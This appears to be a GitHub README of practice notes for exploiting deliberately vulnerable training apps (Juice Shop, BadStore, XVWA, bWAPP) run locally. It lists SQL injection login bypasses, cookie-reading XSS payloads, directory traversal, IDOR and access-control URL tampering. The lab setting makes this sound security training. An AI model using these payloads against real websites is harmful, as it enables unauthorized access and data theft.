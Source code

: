 # mikeryan_vuln

install docker 

https://docs.docker.com/engine/install/debian/


[if there is an error like docker already running 

then run command 
sudo docker stop (container_name)

if required 
sudo docker rm (conatiner_name) ]


1) Juice Shop 

	install docker 

	sudo docker pull bkimminich/juice-shop

	sudo docker run -d -p 3000:3000 --name juice-shop bkimminich/juice-shop

	http://localhost:3000



Vulnerability 

	1) in url add: 
 	    localhost:3000/#/administration

	2) inside login 
	for username give 'OR 1=1-- and password anything

	3) go to inspect
	 add script inside div tag class="cdk-live-announcer-eleme cdk-visually-hidden"
	<img rc="invalid_image" onerror="alert('XSS')">

	4) Directory Traversal 
	http://localhost:3000/ftp

	5) Information Disclosure (API Data)
	curl -X POST http://localhost:3000/api/export-data -d "user_id=1234"

	info got in output

	Framework Info:Express.js
	Third-Party Libraries: Libraries like morgan
	File Paths and Line Numbers: Exposes internal paths, such as 
	/juice-shop/build/routes/angular.js, revealing where the error occurred in the 
	app.
	

if required
	sudo docker stop juice-shop
	sudo docker rm juice-shop



2) BadStore

	sudo docker pull jvhoof/badstore-docker

	sudo docker run -d -p 80:80 jvhoof/badstore-docker

	http://localhost

vulnerability 

     1) in search bar add 

        <script>alert('XSS')</script>

         you will get xss

	2)  in search bar add
	<script>alert(0)</script>
 
	you will get pop up showing reflected XSs

	3) in supplier login 
	within email address add payload 

	1’ or ‘1’=’1-- -  
	or 
	admin

	you will be able to login as a supplier 

	3) Click on supplier contract and it will download the contract without you being 	an authenticated supplier ie. you have not logged in as supplier yet 

	4) in browser url add

	http://localhost/cgi-bin/badstore.cgi?action=admin

	u will directly log in as admin and showing BAC

	5)  in terminal , information disclosure for server used

	curl -I http://localhost/cgi-bin/badstore.cgi

	6) SQL injection , found all available products 
	http://localhost/cgi-bin/badstore.cgi?action=search&search&query=1'OR'1'='1





3) XVWA


download iso file 
https://www.vulnhub.com/entry/xtreme-vulnerable-web-application-xvwa-1,209/


run the iso file on vm ware 
once open xvwa 

ifconfig on xvwa machine 

using that ip , on kali browser
do 
http://192.168.71.132/xvwa/


vulnerability 

	1) server side template injection 

	there add <script>alert(0)</script>

	2) in sql injection 

	add in search 1 or ' , and submit it will give error based output (reason upto)

	3) insecure object reference 

	in url item=some one number in range 1 to 5 
	but we give more than 5 still it take as input and display output 
	so first select item and submit , then change url 

	http://192.168.71.132/xvwa/vulnerabilities/idor/?item=7

	4) created a vulnerable payload using gedit or nano (eg add script to it)

	go to unrestricted file upload and upload image 
	no intput sanitisation 

	5) login using username pass admin and admin 
	then go to missing access control and you can delete select options

	then logout 
	and again go to missing access control there select an option 
	click on view 
	and on url change action=view to action=delete



4) BWAPP


docker pull raesene/bwapp

docker run -d -p 8080:80 raesene/bwapp

in browser 

http://localhost:8080/install.php

Login to bwapp
Username:bee
Password:bug

Find the vulnerabilities

	1) Sql injection(get search)

	‘OR 1==1—
	click search you will get , error based , click search again 

	2) Cross site scripting

	Select html injection (reflected)
	
	Then in frst and last name u add payload
	First name=<script>alert(document.cookie);</script>
	Last name=<img src=x onerror=alert(document.cookie)>
	Right click on page – view source page [check for script you have injected]

	3) information disclosure
	Select information disclosure-php version

	4) curl -I http://localhost:8080/login.php

	5) directory traversal-
	directories u select under a7 and press hack
	http://localhost:8080/directory_traversal_2.php?directory=documents
	
	remove documents and add =../
	Payload=http://localhost:8080/directory_traversal_2.php?directory=../

	6) oldbackup and unreferred file under a5
	
	Just change the url
	localhost:8080/sm_obu_files.php
	smo_obu_files.php change to backdoor.php

	





	 


                         

